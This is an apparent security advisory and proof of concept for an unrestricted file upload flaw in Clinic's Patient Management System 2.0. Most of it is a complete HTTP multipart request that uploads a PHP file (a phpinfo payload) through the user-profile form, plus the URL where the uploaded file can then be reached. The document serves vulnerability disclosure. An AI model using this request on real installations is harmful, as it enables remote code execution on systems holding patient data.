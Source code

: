 #### Title: Clinic's Patient Management System 2.0 Unrestricted file upload (RCE)
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 04.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Clinic's%20Patient%20Management%20System/Unrestricted%20file%20upload%20(RCE)/POC.md
#### Description：
##### Clinic's Patient Management System is vulnerable to unrestricted file upload. At the file upload function, the application system checks the validity of the file type, format, and content uploaded by the user, so that attackers can upload Webshell (.php, .jsp, asp, etc.) malicious script files or files in unexpected formats, such as HTML files, SHTML files, etc., at the same time, you can use characters such as directory jump or control the upload directory to directly upload files to the Web directory or any directory, which lead to the execution of arbitrary malicious script files on the remote server, thereby directly obtaining application system permissions.


#### Payload used:
`<?php phpinfo();?>`

### POC
```
POST /pms/update_user.php?user_id=1 HTTP/1.1
Host: localhost
Content-Length: 828
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHTbuuF5mdaA9K4Fw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/pms/update_user.php?user_id=1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=kbnmikgfhdo4qe7crgidipoqc9
Connection: close

------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="hidden_id"

1
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="display_name"

Administrator
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="profile_picture"; filename="rce.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="save_user"


------WebKitFormBoundaryHTbuuF5mdaA9K4Fw--
```

#### Access below URL:
`http://localhost/pms/user_images/1656897223rce.php`

![image](https://github.com/CyberThoth/CVE/blob/e447fdac9a76f3b5f97a8adb5d4343425fd61f0a/CVE/Clinic's%20Patient%20Management%20System/Unrestricted%20file%20upload%20(RCE)/1.png)

